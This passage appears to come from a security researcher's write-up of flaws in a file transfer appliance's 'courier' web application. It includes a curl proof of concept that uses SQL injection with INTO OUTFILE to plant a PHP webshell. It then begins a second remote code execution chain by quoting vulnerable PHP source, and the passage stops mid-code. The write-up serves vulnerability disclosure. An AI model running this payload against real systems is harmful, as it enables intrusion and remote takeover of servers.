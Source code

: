 In addition, FTA database user has root privileges with FILE_PRIV option enabled. By exploiting `INTO OUTFILE` and writing their own PHP code to write-enabled directory, user will be able to execute code remotely!  


**PoC**
{% highlight bash %}
$ curl https://<fta>/courier/1000@/security_key2.api -d "aid=1000&user_id=1&password=1&client_id=' OR 1=1 LIMIT 1 INTO OUTFILE '/home/seos/courier/themes/templates/.cc.php' LINES TERMINATED BY 0x3c3f...#"
{% endhighlight %}

The created PHP file will be located at

> http://\<fta\>/courier/themes/templates/.cc.php



#### Known-Secret-Key leads to Remote Code Execution

In the previous vulnerability, one requirement to execute code remotely is the existence of a write-enabled directory for injecting webshell. But in reality, chances are there is no write-enabled directory available, thus fail to execute code through SQL Injection. But there is another way to help us accomplish RCE.  

The precondition of this vulnerability is **Known-Secret-Key stored in the database**  

This is not a problem, since the database can be accessed with the SQL Injection vulnerability mentioned earlier. Also, although there are some parameter filters in the code, they can be bypassed!  

**/home/seos/courier/sfUtils.api**

{% highlight php startinline %}
$func_call = decrypt( $_POST['fc'] );
$orig_func = '';
if (preg_match( '/(.+)\(.*\)/', $func_call, $func_match )) {
    $orig_func = $func_call;
    $func_call = $func_match[1];
}
$cs_method = array( 'delete_session_cache', 'delete_user_contact', 'valid_password', 'user_password_update_disallowed', 'user_password_format_disallowed', 'get_user_contact_list', 'user_email_verified', 'user_exist_allow_direct_download', 'user_profile_auth' );
if (( !$func_call || !in_array( $func_call, $cs_method ) )) {
    return false;
}
if ($orig_func) {
    $func_call = $orig_func;
}
if ($func_call  == 'get_user_contact_list') {
    if (!$_csinfo['user_id']) {
        return false;
    }
    if (preg_match( '/[\\\/"\*\:\?\<\>\|&]/', $_POST['name'] )) {
        return false;
    }
    $func_call = 'echo(count(' . $func_call . '("' . $_csinfo['user_id'] . '", array("nickname"=>"' . addslashes( $_POST['name'] ) . '"))));';
} else {
    if (isset( $_POST['p1'] )) {
        $func_param = array(  );
        $p_no = 7;

        while (isset( $_POST['p' . $p_no] )) {
            $func_param[] = str_replace( '\'', '\\\'', str_replace( '$', '\\$', addslashes( $_POST['p' . $p_no] ) ) );
            ++$p_no;
        }
        $func_call = 'echo(' . $func_call . '("' . join( '", "', $func_param ) . '"));';
    }